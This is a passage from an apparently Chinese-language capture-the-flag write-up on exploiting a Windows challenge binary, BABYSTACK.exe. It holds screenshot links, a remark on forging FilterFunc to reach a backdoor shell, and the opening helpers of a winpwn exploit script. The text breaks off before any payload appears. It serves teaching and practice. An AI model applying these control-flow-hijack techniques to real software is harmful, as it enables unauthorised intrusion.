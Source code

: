 [![](https://img.lhyerror404.cn/error404/2020-07-09-023101.png)](https://img.lhyerror404.cn/error404/2020-07-09-023101.png)

[![](https://img.lhyerror404.cn/error404/2020-07-09-023215.png)](https://img.lhyerror404.cn/error404/2020-07-09-023215.png)

[![](https://img.lhyerror404.cn/error404/2020-07-09-024134.png)](https://img.lhyerror404.cn/error404/2020-07-09-024134.png)

可以发现，该检查已经通过！

[![](https://img.lhyerror404.cn/error404/2020-07-09-024303.png)](https://img.lhyerror404.cn/error404/2020-07-09-024303.png)

#### <a class="reference-link" name="%E6%9C%80%E7%BB%88%E5%8A%AB%E6%8C%81%E6%8E%A7%E5%88%B6%E6%B5%81%E5%88%B0Shell"></a>最终劫持控制流到Shell

接下来我们只需要伪造`FilterFunc`到程序后门即可完成利用。

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from winpwn import *
import os
import traceback
import sys
context.log_level='debug'
# context.arch='amd64'
context.arch='i386'

# file_name=ELF('./file_name', checksec = False)

def get_sh():
    if len(sys.argv) &gt; 1 and sys.argv[1] == 'REMOTE' :
        return remote(sys.argv[2],sys.argv[3])
    else:
        return process("./BABYSTACK.exe")

def get_address(sh,info=None,start_string=None,address_len=None,end_string=None,offset=None,int_mode=False):
    if start_string != None:
        sh.recvuntil(start_string)
    if int_mode :
        return_address = int(sh.recvuntil(end_string).strip(end_string),16)
    elif address_len != None:
        return_address = u64(sh.recv()[:address_len].strip(end_string).ljust(8,'x00'))
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    if offset != None:
        return_address = return_address + offset
    if info != None:
        print(info + str(hex(return_address)))
    return return_address

# def get_flag(sh):
#     sh.sendline('cat /flag')
#     return sh.recvrepeat(0.3)

def get_gdb(sh,stop=False):
    windbgx.attach(sh)
    if stop :
        raw_input()
```